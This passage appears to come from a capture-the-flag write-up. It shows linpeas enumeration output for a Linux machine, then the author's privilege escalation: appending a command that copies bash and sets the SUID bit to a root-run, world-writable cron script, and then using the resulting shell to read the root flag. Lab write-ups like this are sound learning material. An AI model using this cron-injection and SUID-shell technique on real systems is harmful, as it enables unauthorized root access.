-rw-r--r-- 1 root root 856 Apr  1  2018 /usr/share/bash-completion/completions/bind                                                                  
-rw-r--r-- 1 root root 856 Apr  1  2018 /usr/share/bash-completion/completions/bind


╔══════════╣ Analyzing Interesting logs Files (limit 70)
-rw-r----- 1 www-data adm 0 Mar 26 05:13 /var/log/nginx/access.log                                                                                   

-rw-r----- 1 www-data adm 0 Mar 26 05:13 /var/log/nginx/error.log

╔══════════╣ Analyzing Windows Files Files (limit 70)
                                                                                                                                                     


-rw-r--r-- 1 root root 516413 Feb 10  2018 /usr/share/gutenprint/5.2/xml/printers.xml


╔══════════╣ Analyzing Other Interesting Files Files (limit 70)
-rw-r--r-- 1 root root 3771 Apr  4  2018 /etc/skel/.bashrc                                                                                           
-rw-r--r-- 1 boring boring 3130 Jun 15  2020 /home/boring/.bashrc


-rw-r--r-- 1 root root 807 Apr  4  2018 /etc/skel/.profile
-rw-r--r-- 1 boring boring 807 Jun 14  2020 /home/boring/.profile


                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════                                              
                                         ╚═══════════════════╝                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                          
strings Not Found                                                                                                                                    
-rwsr-xr-- 1 root messagebus 42K Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                            
-rwsr-xr-x 1 root root 427K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root dip 374K Feb 11  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                                                                    
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 43K Mar  5  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 27K Mar  5  2020 /bin/umount  --->  BSD/Linux(08-1996)

╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                          
-rwxr-sr-x 1 root ssh 355K Mar  4  2019 /usr/bin/ssh-agent                                                                                           
-rwxr-sr-x 1 root crontab 39K Nov 15  2017 /usr/bin/crontab
-rwxr-sr-x 1 root mlocate 43K Mar  1  2018 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 23K Mar 22  2019 /usr/bin/expiry
-rwxr-sr-x 1 root tty 31K Mar  5  2020 /usr/bin/wall
-rwxr-sr-x 1 root shadow 71K Mar 22  2019 /usr/bin/chage
-rwxr-sr-x 1 root tty 14K Jan 17  2018 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 34K Feb 27  2019 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 34K Feb 27  2019 /sbin/pam_extrausers_chkpwd

╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#ld-so                                                                                  
/etc/ld.so.conf                                                                                                                                      
include /etc/ld.so.conf.d/*.conf

/etc/ld.so.conf.d
  /etc/ld.so.conf.d/libc.conf
/usr/local/lib
  /etc/ld.so.conf.d/x86_64-linux-gnu.conf
/usr/local/lib/x86_64-linux-gnu
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                           
Current capabilities:                                                                                                                                
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep

╔══════════╣ Users with capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                           
                                                                                                                                                     
╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls                                                                                   
files with acls in searched folders Not Found                                                                                                        
                                                                                                                                                     
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                                                
/usr/bin/gettext.sh                                                                                                                                  
/usr/bin/amuFormat.sh

╔══════════╣ Unexpected in root
/swapfile                                                                                                                                            
/initrd.img
/vmlinuz.old
/vmlinuz
/initrd.img.old

╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#profiles-files                                                                         
total 36                                                                                                                                             
drwxr-xr-x   2 root root  4096 Jun 14  2020 .
drwxr-xr-x 121 root root 12288 Jun 15  2020 ..
-rw-r--r--   1 root root    96 Sep 27  2019 01-locale-fix.sh
-rw-r--r--   1 root root   664 Apr  1  2018 bash_completion.sh
-rw-r--r--   1 root root  1003 Dec 29  2015 cedilla-portuguese.sh
-rw-r--r--   1 root root   652 Feb 13  2018 input-method-config.sh
-rw-r--r--   1 root root  1941 Apr 10  2018 vte-2.91.sh

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                                                           
                                                                                                                                                     
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No                                                                                                         
═╣ Credentials in fstab/mtab? ........... No                                                                                                         
═╣ Can I read shadow files? ............. No                                                                                                         
═╣ Can I read shadow plists? ............ No                                                                                                         
═╣ Can I write shadow plists? ........... No                                                                                                         
═╣ Can I read opasswd file? ............. No                                                                                                         
═╣ Can I write in network-scripts? ...... No                                                                                                         
═╣ Can I read root folder? .............. No                                                                                                         
                                                                                                                                                     
╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                                                                               
/root/

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service                                                                                  
/sys/fs/cgroup/unified/user.slice/user-1000.slice/user@1000.service

╔══════════╣ Readable files belonging to root and readable by me but not world readable
                                                                                                                                                     
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/spool/anacron/cron.weekly                                                                                                                       
/var/log/journal/1ed81d5ac22b46c4975417b057b1933e/user-1000.journal
/var/log/journal/1ed81d5ac22b46c4975417b057b1933e/system.journal
/var/log/syslog
/var/log/kern.log
/var/log/auth.log
/home/boring/.gnupg/trustdb.gpg
/home/boring/.gnupg/pubring.kbx

╔══════════╣ Writable log files (logrotten) (limit 100)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation                                                                 
                                                                                                                                                     
╔══════════╣ Files inside /home/boring (limit 20)
total 788                                                                                                                                            
drwxr-xr-x 5 boring boring   4096 Mar 26 05:16 .
drwxr-xr-x 3 root   root     4096 Jun 14  2020 ..
-rw------- 1 boring boring      2 Mar 26 05:10 .bash_history
-rw-r--r-- 1 boring boring    220 Jun 14  2020 .bash_logout
-rw-r--r-- 1 boring boring   3130 Jun 15  2020 .bashrc
drwx------ 2 boring boring   4096 Jun 14  2020 .cache
drwx------ 3 boring boring   4096 Mar 26 05:20 .gnupg
-rwxrwxr-x 1 boring boring 762915 Mar 26 05:15 linpeas.sh
drwxrwxr-x 3 boring boring   4096 Jun 14  2020 .local
-rw-r--r-- 1 boring boring    807 Jun 14  2020 .profile
-rw-r--r-- 1 boring boring     83 Jun 14  2020 user.txt

╔══════════╣ Files inside others home (limit 20)
                                                                                                                                                     
╔══════════╣ Searching installed mail applications
                                                                                                                                                     
╔══════════╣ Mails (limit 50)
                                                                                                                                                     
╔══════════╣ Backup folders
                                                                                                                                                     
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 974 Mar 16  2018 /usr/share/help-langpack/en_AU/org.gnome.DejaDup/backup-auto.page                                            
-rw-r--r-- 1 root root 755 Mar 16  2018 /usr/share/help-langpack/en_AU/org.gnome.DejaDup/backup-first.page
-rw-r--r-- 1 root root 974 Mar 16  2018 /usr/share/help-langpack/en_GB/org.gnome.DejaDup/backup-auto.page
-rw-r--r-- 1 root root 755 Mar 16  2018 /usr/share/help-langpack/en_GB/org.gnome.DejaDup/backup-first.page
-rw-r--r-- 1 root root 2543 Apr 13  2018 /usr/share/help-langpack/en_GB/evolution/backup-restore.page
-rw-r--r-- 1 root root 76 Mar 21  2018 /usr/share/lightdm/lightdm.conf.d/50-disable-log-backup.conf
-rw-r--r-- 1 root root 11854 Jun 14  2020 /usr/share/info/dir.old
-rw-r--r-- 1 root root 291 Mar  4  2015 /usr/share/themes/Breeze-ob/openbox-3/desk_pressed.xbm.old
-rw-r--r-- 1 root root 291 Mar  4  2015 /usr/share/themes/Breeze-ob/openbox-3/desk_hover.xbm.old
-rw-r--r-- 1 root root 273 Mar  4  2015 /usr/share/themes/Breeze-ob/openbox-3/desk.xbm.old
-rw-r--r-- 1 root root 7867 Nov  7  2016 /usr/share/doc/telnet/README.telnet.old.gz
-rw-r--r-- 1 root root 361345 Feb  1  2018 /usr/share/doc/manpages/Changes.old.gz
-rw-r--r-- 1 root root 0 Jun  4  2020 /usr/src/linux-headers-4.15.0-106-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 0 Jun  4  2020 /usr/src/linux-headers-4.15.0-106-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 217484 Jun  4  2020 /usr/src/linux-headers-4.15.0-106-generic/.config.old
-rw-r--r-- 1 root root 0 Apr 23  2018 /usr/src/linux-headers-4.15.0-20-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 0 Apr 23  2018 /usr/src/linux-headers-4.15.0-20-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 216818 Apr 23  2018 /usr/src/linux-headers-4.15.0-20-generic/.config.old
-rw-r--r-- 1 root root 24688 Jun 13  2020 /var/log/Xorg.0.log.old

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found: /var/lib/mlocate/mlocate.db: regular file, no read permission                                                                                 
Found: /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3022000

 -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
                                                                                                                                                     


╔══════════╣ Web files?(output limit)
/var/www/:                                                                                                                                           
total 16K
drwxr-xr-x  3 root   root   4.0K Jun 15  2020 .
drwxr-xr-x 14 root   root   4.0K Jun 13  2020 ..
drwxr-xr-x  4 root   root   4.0K Jun 15  2020 html
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh

/var/www/html:
total 32K
drwxr-xr-x 4 root root 4.0K Jun 15  2020 .

╔══════════╣ All hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 root root 211 Apr 17  2018 /usr/share/gnumeric/1.12.35/autoformat-templates/Classical/.category                                         
-rw-r--r-- 1 root root 211 Apr 17  2018 /usr/share/gnumeric/1.12.35/autoformat-templates/Colourful/.category
-rw-r--r-- 1 root root 201 Apr 17  2018 /usr/share/gnumeric/1.12.35/autoformat-templates/List/.category
-rw-r--r-- 1 root root 207 Apr 17  2018 /usr/share/gnumeric/1.12.35/autoformat-templates/General/.category
-rw-r--r-- 1 root root 197 Apr 17  2018 /usr/share/gnumeric/1.12.35/autoformat-templates/3D/.category
-rw-r--r-- 1 root root 211 Apr 17  2018 /usr/share/gnumeric/1.12.35/autoformat-templates/Financial/.category
-rw-r--r-- 1 root root 220 Apr  4  2018 /etc/skel/.bash_logout
-rw------- 1 root root 0 Apr 26  2018 /etc/.pwd.lock
-rw-r--r-- 1 root root 1531 Jun 14  2020 /etc/apparmor.d/cache/.features
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
-rw-r--r-- 1 boring boring 220 Jun 14  2020 /home/boring/.bash_logout

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rw-r--r-- 1 root root 988 Jun 14  2020 /var/backups/apt.extended_states.1.gz                                                                        
-rw-r--r-- 1 root root 43 Jun 13  2020 /var/backups/dpkg.arch.1.gz
-rw-r--r-- 1 root root 367015 Jun 13  2020 /var/backups/dpkg.status.2.gz
-rw-r--r-- 1 root root 2910 Jun 15  2020 /var/backups/alternatives.tar.1.gz
-rw-r--r-- 1 root root 2980 Jun 13  2020 /var/backups/alternatives.tar.3.gz
-rw-r--r-- 1 root root 280 Jun 13  2020 /var/backups/dpkg.diversions.0
-rw-r--r-- 1 root root 11 Jun 13  2020 /var/backups/dpkg.arch.0
-rw-r--r-- 1 root root 228 Apr 26  2018 /var/backups/dpkg.statoverride.0
-rw-r--r-- 1 root root 43 Jun 13  2020 /var/backups/dpkg.arch.2.gz
-rw-r--r-- 1 root root 1369421 Jun 15  2020 /var/backups/dpkg.status.0
-rw-r--r-- 1 root root 51200 Mar 26 05:13 /var/backups/alternatives.tar.0
-rw-r--r-- 1 root root 160 Jun 13  2020 /var/backups/dpkg.diversions.2.gz
-rw-r--r-- 1 root root 366599 Jun 13  2020 /var/backups/dpkg.status.3.gz
-rw-r--r-- 1 root root 179 Apr 26  2018 /var/backups/dpkg.statoverride.1.gz
-rw-r--r-- 1 root root 934 Jun 13  2020 /var/backups/apt.extended_states.2.gz
-rw-r--r-- 1 root root 160 Jun 13  2020 /var/backups/dpkg.diversions.3.gz
-rw-r--r-- 1 root root 179 Apr 26  2018 /var/backups/dpkg.statoverride.3.gz
-rw-r--r-- 1 root root 160 Jun 13  2020 /var/backups/dpkg.diversions.1.gz
-rw-r--r-- 1 root root 2892 Jun 14  2020 /var/backups/alternatives.tar.2.gz
-rw-r--r-- 1 root root 179 Apr 26  2018 /var/backups/dpkg.statoverride.2.gz
-rw-r--r-- 1 root root 8986 Jun 15  2020 /var/backups/apt.extended_states.0
-rw-r--r-- 1 root root 377621 Jun 14  2020 /var/backups/dpkg.status.1.gz
-rw-r--r-- 1 root root 43 Jun 13  2020 /var/backups/dpkg.arch.3.gz

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                         
/dev/mqueue                                                                                                                                          
/dev/shm
/home/boring
/run/lock
/run/user/1000
/run/user/1000/gnupg
/run/user/1000/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/var/crash
/var/lib/lightdm-data/kral4
/var/metrics
/var/tmp
/var/www/.mysecretcronjob.sh

╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                         
                                                                                                                                                     
╔══════════╣ Searching passwords in history files
                                                                                                                                                     
╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password                                                                                                                            
/bin/systemd-tty-ask-password-agent
/etc/pam.d/common-password
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/pppd/2.4.7/passwordfd.so
/usr/lib/x86_64-linux-gnu/libsamba-credentials.so.0
/usr/lib/x86_64-linux-gnu/libsamba-credentials.so.0.0.1
/usr/lib/x86_64-linux-gnu/samba/libcmdline-credentials.so.0
/usr/share/doc/dialog/examples/password
/usr/share/doc/dialog/examples/password1
/usr/share/doc/dialog/examples/password2
/usr/share/help/bg/evince/password.page
/usr/share/help/ca/evince/password.page
/usr/share/help/ca/file-roller/password-protection.page
/usr/share/help/ca/file-roller/troubleshooting-password.page
/usr/share/help/C/evince/password.page
/usr/share/help/C/file-roller/password-protection.page
/usr/share/help/C/file-roller/troubleshooting-password.page
/usr/share/help/cs/evince/password.page
/usr/share/help/cs/file-roller/password-protection.page
/usr/share/help/cs/file-roller/troubleshooting-password.page
/usr/share/help/da/evince/password.page
/usr/share/help/da/file-roller/password-protection.page
/usr/share/help/da/file-roller/troubleshooting-password.page
/usr/share/help/de/evince/password.page
/usr/share/help/de/file-roller/password-protection.page
/usr/share/help/de/file-roller/troubleshooting-password.page
/usr/share/help/el/evince/password.page
/usr/share/help/el/file-roller/password-protection.page
/usr/share/help/el/file-roller/troubleshooting-password.page
/usr/share/help/en_GB/evince/password.page
/usr/share/help/es/evince/password.page
/usr/share/help/es/file-roller/password-protection.page
/usr/share/help/es/file-roller/troubleshooting-password.page
/usr/share/help/eu/evince/password.page
/usr/share/help/fi/evince/password.page
/usr/share/help/fi/file-roller/password-protection.page
/usr/share/help/fi/file-roller/troubleshooting-password.page
/usr/share/help/fr/evince/password.page
/usr/share/help/fr/file-roller/password-protection.page
/usr/share/help/fr/file-roller/troubleshooting-password.page
/usr/share/help/gl/evince/password.page
/usr/share/help/gl/file-roller/password-protection.page
/usr/share/help/gl/file-roller/troubleshooting-password.page
/usr/share/help/hu/evince/password.page
/usr/share/help/hu/file-roller/password-protection.page
/usr/share/help/hu/file-roller/troubleshooting-password.page
/usr/share/help/id/evince/password.page
/usr/share/help/id/file-roller/password-protection.page
/usr/share/help/id/file-roller/troubleshooting-password.page
/usr/share/help/it/evince/password.page
/usr/share/help/ja/evince/password.page
/usr/share/help/ja/file-roller/password-protection.page
/usr/share/help/ja/file-roller/troubleshooting-password.page
/usr/share/help/ko/evince/password.page
/usr/share/help/ko/file-roller/password-protection.page
/usr/share/help/ko/file-roller/troubleshooting-password.page
/usr/share/help-langpack/en_GB/empathy/irc-nick-password.page
/usr/share/help-langpack/en_GB/evince/password.page
/usr/share/help-langpack/en_GB/zenity/password.page
/usr/share/help/lv/evince/password.page
/usr/share/help/nl/evince/password.page
/usr/share/help/oc/evince/password.page
/usr/share/help/pl/evince/password.page
/usr/share/help/pl/file-roller/password-protection.page
/usr/share/help/pl/file-roller/troubleshooting-password.page
/usr/share/help/pt_BR/evince/password.page
/usr/share/help/pt_BR/file-roller/password-protection.page

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
                                                                                                                                                     
╔══════════╣ Searching passwords inside logs (limit 70)
2018-04-26 18:18:15 configure base-passwd:amd64 3.5.44 3.5.44                                                                                        
2018-04-26 18:18:15 install base-passwd:amd64 <none> 3.5.44
2018-04-26 18:18:15 status half-configured base-passwd:amd64 3.5.44
2018-04-26 18:18:15 status half-installed base-passwd:amd64 3.5.44
2018-04-26 18:18:15 status installed base-passwd:amd64 3.5.44
2018-04-26 18:18:15 status unpacked base-passwd:amd64 3.5.44
2018-04-26 18:18:17 status half-configured base-passwd:amd64 3.5.44
2018-04-26 18:18:17 status half-installed base-passwd:amd64 3.5.44
2018-04-26 18:18:17 status unpacked base-passwd:amd64 3.5.44
2018-04-26 18:18:17 upgrade base-passwd:amd64 3.5.44 3.5.44
2018-04-26 18:18:22 install passwd:amd64 <none> 1:4.5-1ubuntu1
2018-04-26 18:18:22 status half-installed passwd:amd64 1:4.5-1ubuntu1
2018-04-26 18:18:22 status unpacked passwd:amd64 1:4.5-1ubuntu1
2018-04-26 18:18:23 configure base-passwd:amd64 3.5.44 <none>
2018-04-26 18:18:23 status half-configured base-passwd:amd64 3.5.44
2018-04-26 18:18:23 status unpacked base-passwd:amd64 3.5.44
2018-04-26 18:18:24 status installed base-passwd:amd64 3.5.44
2018-04-26 18:18:26 configure passwd:amd64 1:4.5-1ubuntu1 <none>
2018-04-26 18:18:26 status half-configured passwd:amd64 1:4.5-1ubuntu1
2018-04-26 18:18:26 status installed passwd:amd64 1:4.5-1ubuntu1
2018-04-26 18:18:26 status unpacked passwd:amd64 1:4.5-1ubuntu1
2020-06-14 14:31:11 status half-configured passwd:amd64 1:4.5-1ubuntu1
2020-06-14 14:31:11 status half-installed passwd:amd64 1:4.5-1ubuntu1
2020-06-14 14:31:11 status unpacked passwd:amd64 1:4.5-1ubuntu1
2020-06-14 14:31:11 upgrade passwd:amd64 1:4.5-1ubuntu1 1:4.5-1ubuntu2
2020-06-14 14:31:14 configure passwd:amd64 1:4.5-1ubuntu2 <none>
2020-06-14 14:31:14 status half-configured passwd:amd64 1:4.5-1ubuntu2
2020-06-14 14:31:14 status half-installed passwd:amd64 1:4.5-1ubuntu1
2020-06-14 14:31:14 status installed passwd:amd64 1:4.5-1ubuntu2
2020-06-14 14:31:14 status unpacked passwd:amd64 1:4.5-1ubuntu2
 base-passwd depends on libc6 (>= 2.8); however:
 base-passwd depends on libdebconfclient0 (>= 0.145); however:
Binary file /var/log/journal/1ed81d5ac22b46c4975417b057b1933e/user-1000.journal matches
dpkg: base-passwd: dependency problems, but configuring anyway as you requested:
Preparing to unpack .../base-passwd_3.5.44_amd64.deb ...
Preparing to unpack .../passwd_1%3a4.5-1ubuntu1_amd64.deb ...
Selecting previously unselected package base-passwd.
Selecting previously unselected package passwd.
Setting up base-passwd (3.5.44) ...
Setting up passwd (1:4.5-1ubuntu1) ...
Shadow passwords are now on.
Unpacking base-passwd (3.5.44) ...
Unpacking base-passwd (3.5.44) over (3.5.44) ...
Unpacking passwd (1:4.5-1ubuntu1) ...
```

Hmmm...where to start.

### sudo
The *boring* user cannot run **sudo**.

### SUID
Nothing out of the ordinary there:

```
boring@kral4-PC:~$ find / -perm -4000 2> /dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/pppd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/bin/ping
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
```

## cron jobs
**linpeas.sh** shows a spurious cronjob run by *root*.

```
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
#!/bin/bash
# i will run as root
```

Try and slip in a command to this bash script and see what happens:

```
boring@kral4-PC:/var/www$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> .mysecretcronjob.sh 
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

So now we play the waiting game...

```
boring@kral4-PC:/var/www$ /tmp/bash -p
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# cat root.txt
cat: root.txt: No such file or directory
bash-4.4# ls
bash-4.4# ls -lashS
total 40K
4.0K drwx------  5 root root 4.0K Jun 15  2020 .
4.0K drwxr-xr-x 23 root root 4.0K Jun 15  2020 ..
4.0K drwx------  2 root root 4.0K Jun 13  2020 .cache
4.0K drwx------  3 root root 4.0K Jun 13  2020 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Jun 13  2020 .local
4.0K -rw-r--r--  1 root root 3.1K Jun 15  2020 .bashrc
4.0K -rw-------  1 root root  883 Jun 15  2020 .bash_history
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
4.0K -rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
bash-4.4# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
bash-4.4# 
```

And...I am root:

> .root.txt: flag{63a9f0ea7bb98050796b649e85481845}


---
##What did I learn

1. There are many ways to decode a hash, and CyberChef is a must have. http://md5hashing.net is also a goer.
2. Enumerate everything! I am still jumping over things.
3.  
